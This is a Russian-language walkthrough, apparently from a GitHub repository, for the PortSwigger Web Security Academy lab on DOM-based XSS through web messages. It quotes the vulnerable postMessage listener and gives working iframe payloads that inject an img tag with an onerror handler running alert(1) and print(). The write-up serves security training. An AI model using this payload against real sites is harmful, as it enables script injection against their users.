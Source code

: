 Откроем уязвимую страницу и нажмем `ПКМ` -> `inspect` 
и увидим там следующий код
```
<script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;})
</script>
```
Увидим, что в данном скрипте присутсвует метод `addEventListener`, который ждет вебовского вызова
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/17.%20DOM-based%20vulnerabilities/1.%20DOM%20XSS%20using%20web%20messages/pics%20for%20walkthrough/1.png)
Когда iframe загружается, метод `postMessage()` отправляет веб-сообщение на домашнюю страницу. Прослушиватель событий, предназначенный для показа рекламы, извлекает содержимое веб-сообщения и вставляет его в `div` с идентификатором `ads`. Однако в этом случае он вставляет наш тег `img`, который содержит недопустимый атрибут `src`. Это приводит к ошибке, которая заставляет обработчик события `onerror` выполнять нашу полезную нагрузку

Соответсвенно, сконфигурируем наш пэйлоад
```
<iframe src="https://0a0a008f048853b386c712aa00b1001d.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=alert(1)>','*')">
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/17.%20DOM-based%20vulnerabilities/1.%20DOM%20XSS%20using%20web%20messages/pics%20for%20walkthrough/2.png)
проверим через `View exploit `
и увидим, что XSS Отрабатывает
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/17.%20DOM-based%20vulnerabilities/1.%20DOM%20XSS%20using%20web%20messages/pics%20for%20walkthrough/3.png)

Далее изменим пэйлоад заменив `onerror=alert(1)` на `onerror=print()`, так как этого требует задание
```
<iframe src="https://0a0a008f048853b386c712aa00b1001d.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
Нажмем `Store` -> `Deliver exploit to victim`
и получим уведомление об успешно выполненной лабораторной работе
